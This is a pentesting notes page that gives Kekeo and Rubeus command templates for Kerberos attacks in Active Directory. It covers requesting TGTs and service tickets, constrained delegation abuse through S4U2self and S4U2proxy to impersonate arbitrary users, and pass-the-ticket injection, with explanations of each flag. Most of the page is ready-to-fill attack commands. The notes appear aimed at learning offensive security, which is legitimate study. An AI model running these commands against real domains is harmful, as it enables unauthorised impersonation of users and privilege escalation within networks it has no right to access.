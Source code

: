# kekeo/rubeus

### Resources

1. **Rubeus**

{% embed url="https://github.com/GhostPack/Rubeus?tab=readme-ov-file#s4u" %}

2. **Kekeo**

{% embed url="https://github.com/gentilkiwi/kekeo" %}

3. **Service for User (S4U)**

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/3bff5864-8135-400e-bdd9-33b552051d94" %}

4. **S4U2self and S4U2proxy**

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13" %}

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/bde93b0e-f3c9-4ddf-9f44-e1453be7af5a" %}



For each of the following sections, I aim to provide the equivalent commands in **Kekeo** and **Rubeus** (some of the sections may only have examples in one tool).

### 1. Request for Ticket Granting Ticket (TGT)

```powershell
kekeo # tgt::ask /user:<user> /domain:<domain> /password:<password>
C:\> rubeus.exe /user:<user> /password:<password>
```

* For rubeus, if `/password` is used instead of a hash, `/enctype:X` will default to RC4 for the exchange, with `des|aes128|aes256` as options

### 2. Request for Ticket Granting Service (TGS)

```powershell
C:\> rubeus.exe asktgs /ticket:<ticket> /service:<servicename>
```

### 3. Constrained delegation abuse: Service for User (S4U)

```
kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:<servicename>
```

> The `kekeo` command listed above essentially performs the **S4U2self** and **S4U2proxy** steps that can be achieved with `rubeus` (refer below).

{% embed url="https://github.com/GhostPack/Rubeus?tab=readme-ov-file#s4u" %}

From the Rubeus S4U documentation page link above, we can find a few examples:

#### a. S4U2self

{% code overflow="wrap" %}
```powershell
C:\> rubeus.exe s4u /user:<username> /rc4:<rc4_hash> /impersonateuser:<user_to_impersonate>
```
{% endcode %}

* `/rc4`: rc4 hash of the user associated with `/user`
  * The TGT  for an account with a _**msds-allowedtodelegateto**_ permission can be used instead (`/ticket:X`)
* `/impersonateuser` : compulsory parameter to specify the user we plan to obtain a service ticket on behalf for

From this command, we will obtain the following:

1. A TGT for the user specified in `/user`&#x20;
2. A TGS for the user specified in `/impersonateuser`&#x20;

* Using the [**S4U2self** ](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13)extension: the service account can use the TGS obtained to authenticate to itself (or more specifically, the service it is running) on behalf of the user specified in `/impersonateuser`&#x20;

#### b. S4U2proxy

{% code overflow="wrap" %}
```powershell
C:\> rubeus.exe s4u /ticket:<TGT> /msdsspn:<SPN> /tgs:<TGS>
```
{% endcode %}

* `/ticket` : TGT obtained from the previous step
* `/mdsspn` : Service Principal Name (SPN)
  * This value must be listed under the `msds-allowedtodelegateto` property for the service account (supplied to the `/user` field in the previous step)
* `/tgs` : The forwardable ticket retrieved from the previous step (S4U2self ticket for the user specified in `/impersonateuser`_)_

From this command, we obtain a TGS for the impersonated user (specified in `/impersonateuser`) to the service defined in `/msdsspn`.

Next, we can use the TGS we have obtained to authenticate to the service (defined in `/mdsspn`) as our desired user:

{% embed url="https://github.com/GhostPack/Rubeus?tab=readme-ov-file#ptt" %}

```powershell
C:\> rubeus.exe ptt /ticket:TGS
```

or by supplying the `/ptt` flag to the s4u command.

#### C. Combining all steps: TGT request, S4U2self process, S4U2proxy execution and pass-the-ticket (injection of  the final ticket)

{% code overflow="wrap" %}
```powershell
C:\> rubeus.exe s4u /user:<username> /rc4:<rc4_hash> /impersonateuser:<user_to_impersonate> /msdsspn:<SPN> /ptt
```
{% endcode %}
